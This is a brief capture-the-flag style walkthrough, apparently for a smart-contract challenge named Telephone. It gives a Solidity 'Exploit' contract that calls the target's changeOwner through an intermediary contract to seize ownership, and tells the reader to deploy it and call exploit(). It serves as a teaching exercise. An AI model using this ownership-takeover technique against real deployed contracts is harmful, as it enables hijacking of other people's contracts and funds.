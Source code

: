 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Exploit {

    function exploit(address _who) public {
        Telephone(_who).changeOwner(msg.sender);
    }
}
```
call exploit()
